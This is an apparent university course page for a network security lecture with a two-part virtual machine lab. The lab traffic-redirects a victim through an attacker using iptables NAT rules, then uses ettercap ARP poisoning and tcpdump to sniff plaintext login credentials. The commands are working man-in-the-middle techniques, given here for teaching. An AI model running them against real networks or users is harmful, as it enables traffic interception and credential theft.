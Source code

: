 ```yaml
---
layout: default
course_number: CS497
title: "Lecture 5: Computer Networking"
---
```


# Lecture 5

- Network Security
- Basic Internet technology
- TCP/IP
- Network models and ARP security
- Spoofing, sniffing, session hijacking
- Denial-of-service botnets

### Reading 

- Introduction to Computer Security: Chapter 5

### Slides

- [Computer Networking](Ch05-NetworkModelsARP.pdf)

### In Class Exercise (part 1)
- Startup VirtualBox and create three (3) virtual machines. 
- One is used to host applications (server) and other virtual machines are for the victim and the attacker.
- Once the network setup is done, run ```ifconfig``` on all VMs and record the IP address for each VM. Take a screenshot.
- **Normal Scenario:**
  - Create a folder in *Server* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testserver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command 
  ```python -m SimpleHTTPServer```
  - Open a browser session in ```Victim’s``` VM and enter ```http://<server_ip_address>:8000/test.html``` in the URL bar. 
  - Observe that we get the expected response. Take a screenshot.
- **Victim to Attacker Link Scenario:**
  - Execute the following commands in ```Victim's``` VM and take a screenshot.
  ```
  sudo iptables -t nat -A OUTPUT -p tcp --dport 80 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 443 -j DNAT --to-destination attacker_ip_address
  sudo iptables -t nat -A OUTPUT -p tcp --dport 8000 -j DNAT --to-destination attacker_ip_address
  ```
  - Create a folder in *Attacker* at ```~/testserver```.
  - Create a file named ```test.html``` in ```~/testterver``` with some text content. Take a screenshot.
  - Open a terminal window and change directory to ```~/testserver```, start a python SimpleHTTPServer with the following command ```python -m SimpleHTTPServer```
  - In ```Victim’s``` VM refresh the browser and observe that we get the expected response. Take a screenshot.
- **Attacker to Server Link Scenario:**
  - Execute the following commands in ```Attacker's``` VM and take a screenshot.
  ```
  sudo sysctl -w net.ipv4.ip_forward=1
  sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A PREROUTING -p tcp --dport 8000 -j DNAT --to-destination server_ip_address
  sudo iptables -t nat -A POSTROUTING -j MASQUERADE
  ```
  - Once above rules are in place, refresh the ```Victim’s``` browser and observe that we are getting the original response from the ```Server```. Take a screenshot. However, now all the traffic is routed through the ```Attacker’s``` network interface. 
  - Open up Wireshark in ```Attacker’s``` virtual machine (you might need to run Wireshark with sudo in order to get the interface list, if group permissions are not properly set). 
  - Select *enp0s3* as the interface and capture communication. *Interface name may vary.* 
  - Observe network traffic as you refresh the ```Victim's``` browser. Take a screenshot.
- To reset the iptables: ```sudo iptables -F```
- [iptables man pages](https://linux.die.net/man/8/iptables)

### In Class Exercise (part 2)
- In this exercise we will be using ettercap to perform ARP poisoning. Ettercap is a comprehensive suite for man in the middle attacks.
- You can install ettercap on your VM bu using -```sudo apt-get install ettercap-text-only```
- The goal of the second part of the lab is to sniff unsecured user authentication and to become familiar with ```tcpdump``` and ```ettercap```. ```tcpdump``` is a command lline network analyzer alternative to Wireshark. In this lab, we will only need the attacker and the victim (client) VM's to be running.
- ```ip r | grep default``` will provide you with indormation about the default gateway. 
- Extensive information aregarding ```tcpdump``` can be found [here](https://www.tcpdump.org/manpages/tcpdump.1.html) or by using the terminal ```man tcpdump```.

- **Steps**
1. From the attacker's VM, open a terminal window and start monitoring any ARP request and replies. Use the following command: ```sudo tcpdump -n -i <interface_name> arp```. Depending on the network traffic, you might begin see a few ARP requests for other machines.
2. Still from the attacker's VM, open a second terminal and start monitoring traffic between our victim and the rest of the Internet. Use the command: ```sudo tcpdump -n -i <interface_name> tcp and port 80 and host <victim_ip_address> -s0 -A -c 1000```. 
3. In a third terminal window enter the following command ```sudo ettercap -T -M ARP /<victim_ip_address>// /<router_ip_address>//```. This will ask ettercap to redirect packets from victim to server through your router first. It will then replay those packets on to the correct MAC address so that neither host notices that ettercap is stealing these packets.
4. On the Victim's VM open up firefox and navigate to [http://aavtrain.com/](http://aavtrain.com/).
5. Login to [http://aavtrain.com/](http://aavtrain.com/) with **fake** username and password. Record what you have used. 
6. Review the output from the second terminal on the attacker's VM. Can you find the sniffed HTTP username and password used to login into the website? If you cannot find the username and the password in the payload, feel free to use wireshark to point you to the right packet. Take a screenshots of the compromised data. 
7. Back to the victims VM's, using the browser navigate to [http://www.facebook.com](http://www.facebook.com) and try to sniff the user login information. Explain what happens and provide a brief explanation. 
8. Shutdown ettercap by pressing 'q'.

### Report 
- Screenshots from both parts of the lab along with any information you would like to share. 
- Awnser the following:
1. What were two things you learned from this lab?
2. Research and submit a link to a tool that we can install on our Linux machine to detect ARP poisoning.
